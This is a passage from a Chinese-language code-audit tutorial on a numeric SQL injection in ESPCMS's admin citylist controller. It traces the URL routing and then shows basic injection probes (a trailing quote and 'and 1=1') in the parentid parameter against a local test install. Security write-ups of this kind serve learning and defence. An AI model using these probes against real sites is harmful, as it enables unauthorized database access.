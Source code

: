 `$action` 变量的值，在其前加上 `on` 就是上述文件里的函数名，默认为 `login`。

所以，在管理员未登陆的情况下，自动跳转地址里的参数就是按照这两个默认值来设置的，即 `/adminsoft/index.php?archive=adminuser&action=login`。

按照这个规律，我们尝试来触发 `/adminsoft/control/citylist.php` 里的 `oncitylist()` 函数。 构造 URL 为：

`/adminsoft/index.php?archive=citylist&action=citylist`

访问该地址，结果如下：



<figure>
<a><img src="{{site.url}}/attaches/2018-04-22-codes-audit-basic-espcms-numeric-sqli/1524212250660.png"></a>
</figure>

可以看到，成功调用了 `oncitylist()` 函数，说明上述规律是正确的，结合前面漏洞原理的分析结果，尝试把 `parentid` 这个变量作为参数加入到 URL 里，其值先取数字 1。URL 为：

`/adminsoft/index.php?archive=citylist&action=citylist&parentid=1`

访问该地址，结果如下：



<figure>
<a><img src="{{site.url}}/attaches/2018-04-22-codes-audit-basic-espcms-numeric-sqli/1524212676068.png"></a>
</figure>

结果好像没有变化，修改 `parentid` 的值为数字 2 再访问。



<figure>
<a><img src="{{site.url}}/attaches/2018-04-22-codes-audit-basic-espcms-numeric-sqli/1524212806791.png"></a>
</figure>

可以看到，只是显示“北京”，多次尝试后，可以知道这个参数表示省份，1 为所有的省，2 为北京，3 为安徽等等，查询的结果就是相应省份下面的市。

至此，我们已经触发了`/adminsoft/control/citylist.php` 里的 `oncitylist()` 函数，并能够加上查询条件参数 `parentid`。

### 0x04 漏洞利用

下面开始尝试 SQL 注入。

`http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1'`



<figure>
<a><img src="{{site.url}}/attaches/2018-04-22-codes-audit-basic-espcms-numeric-sqli/1524213359695.png"></a>
</figure>

`http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 and 1=1`



<figure>
<a><img src="{{site.url}}/attaches/2018-04-22-codes-audit-basic-espcms-numeric-sqli/1524214217167.png"></a>
</figure>
